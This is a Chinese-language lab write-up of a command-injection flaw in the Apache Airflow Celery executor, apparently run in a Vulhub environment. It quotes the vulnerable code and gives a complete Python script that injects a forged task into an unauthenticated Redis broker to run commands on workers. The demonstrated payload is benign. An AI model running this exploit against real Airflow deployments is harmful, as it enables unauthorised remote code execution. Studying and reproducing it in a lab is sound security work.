


# 一、漏洞分析
```
#airflow\executors\celery_executor.py

@app.task
def execute_command(command_to_exec: CommandType) -> None:
    """Executes command."""
    log.info("Executing command in Celery: %s", command_to_exec)
    env = os.environ.copy()
    try:
        subprocess.check_call(command_to_exec, stderr=subprocess.STDOUT,
                              close_fds=True, env=env)
    except subprocess.CalledProcessError as e:
        log.exception('execute_command encountered a CalledProcessError')
        log.error(e.output)
        msg = 'Celery command failed on host: ' + get_hostname()
        raise AirflowException(msg)
```
没有对`command_to_exec`进行过滤，直接`subprocess.check_call(command_to_exec, stderr=subprocess.STDOUT,close_fds=True, env=env)`。
当攻击者控制了中间件broker（Redis）时，可以向中间件的任务队列中添加任务，当worker取到这个恶意任务时就会执行。
# 二、漏洞利用
Vulhub环境中Redis可以未授权访问，即假设攻击者已经控制了中间件。
脚本：
```
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0) 
queue_name = 'default'
ori_str="{\"content-encoding\": \"utf-8\", \"properties\": {\"priority\": 0, \"delivery_tag\": \"f29d2b4f-b9d6-4b9a-9ec3-029f9b46e066\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"correlation_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"delivery_info\": {\"routing_key\": \"celery\", \"exchange\": \"\"}, \"reply_to\": \"fb996eec-3033-3c10-9ee1-418e1ca06db8\"}, \"content-type\": \"application/json\", \"headers\": {\"retries\": 0, \"lang\": \"py\", \"argsrepr\": \"(100, 200)\", \"expires\": null, \"task\": \"airflow.executors.celery_executor.execute_command\", \"kwargsrepr\": \"{}\", \"root_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"parent_id\": null, \"id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"origin\": \"gen1@132f65270cde\", \"eta\": null, \"group\": null, \"timelimit\": [null, null]}, \"body\": \"W1sxMDAsIDIwMF0sIHt9LCB7ImNoYWluIjogbnVsbCwgImNob3JkIjogbnVsbCwgImVycmJhY2tzIjogbnVsbCwgImNhbGxiYWNrcyI6IG51bGx9XQ==\"}"
task_dict = json.loads(ori_str)
command = ['touch', '/tmp/airflow_celery_success']
body=[[command], {}, {"chain": None, "chord": None, "errbacks": None, "callbacks": None}]
task_dict['body']=base64.b64encode(json.dumps(body).encode()).decode()
print(task_dict)
r.lpush(queue_name,json.dumps(task_dict))
```
向Redis中插入了一个恶意任务。

可以看到命令已经被执行：
